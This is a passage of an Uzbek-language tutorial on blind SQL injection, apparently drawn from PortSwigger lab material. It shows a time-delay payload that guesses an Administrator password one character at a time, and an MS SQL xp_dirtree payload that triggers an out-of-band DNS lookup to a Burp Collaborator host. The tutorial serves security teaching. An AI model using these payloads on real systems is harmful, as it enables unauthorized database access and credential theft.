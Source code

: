`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

{% hint style="info" %}
**Eslatma:**

SQL so'rovlarida vaqtni kechiktirishning turli usullari bor va turli xil texnikalari hae xil ma'lumotlar bazasida qo'llaniladi.
{% endhint %}

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark>** **<mark style="color:blue;">****</mark> [Time delaylar orqali SQL ineksiya **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)****
{% endhint %}

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Vaqtni kechiktirish va malumotlarni olish uchun Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)****
{% endhint %}

## <mark style="color:yellow;">OAST texnikasidan foydalangan holda Blind SQL ineksiyadan foydalanish</mark> <a href="#oast-texnikasidan-foydalangan-holda-blind-sql-inektsiyasidan-foydalanish" id="oast-texnikasidan-foydalangan-holda-blind-sql-inektsiyasidan-foydalanish"></a>

Aytaylik, dastur bir xil SQL so'rovini bajaradi, lekin uni asinxron tarzda amalga oshiradi. Ilova foydalanuvchining so'rovini haqiqiy **thread**da qayta ishlashni davom ettiradi va **cookie**-fayllar yordamida SQL so'rovini bajarish uchun boshqa **thread**dan foydalanadi. So'rov hali ham SQL ineksiyaga zaif, ammo hozirgacha aytilgan usullardan hech biri ishlamaydi: Websaytning javobi so'rovning biron bir ma'lumotni qaytarishiga yoki ma'lumotlar bazasida xatolik yuzaga kelishiga yoki so'rovni bajarish uchun ketgan vaqtga bog'liq emas.

Bunday holatda, ko'pincha siz boshqaradigan tizimga OASTdan foydalanib **Blind SQL** ineksiya zaifligidan foydalanish mumkin. Avvalgidek, ular birma-bir ma'lumot olish uchun kiritilgan shart asosida shartli ravishda ishga tushirilishi mumkin. Bundan ham kuchlirog'i, ma'lumotlar to'g'ridan-to'g'ri tarmoq aro ta'sirining o'zida chiqarilishi mumkin.

Bu maqsadda turli xil tarmoq protokollaridan yuborish mumkin, lekin eng samarali **DNS** _(domen nomi xizmati)_ olib boradi. Buning sababi shundaki, juda ko'p ishlab chiqarish tarmoqlari **DNS** so'rovlarini bepul chiqarish imkonini beradi, chunki ular ishlab chiqarish tizimlarining normal ishlashi uchun zarurdir.

**OAST**dan foydalanishning eng oson va ishonchli usuli **Burp Collaborator**-dan foydalanishdir. Bu turli xil tarmoq xizmatlarining (jumladan, DNS) maxsus ilovalarini ta'minlovchi server bo'lib, zaif dasturga individual payladlarni etkazib berish va tarmoq o'zaro ta'siri qachon sodir bo'lishini ta'minlaydi.

DNS so'rovini ishga tushirish usullari ma'lumotlar bazasi turiga juda xosdir. Microsoft SQL Serverda ma'lum domenda DNS lookup uchun quyidagi kabi SQL so'rovdan foydalanish mumkin:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
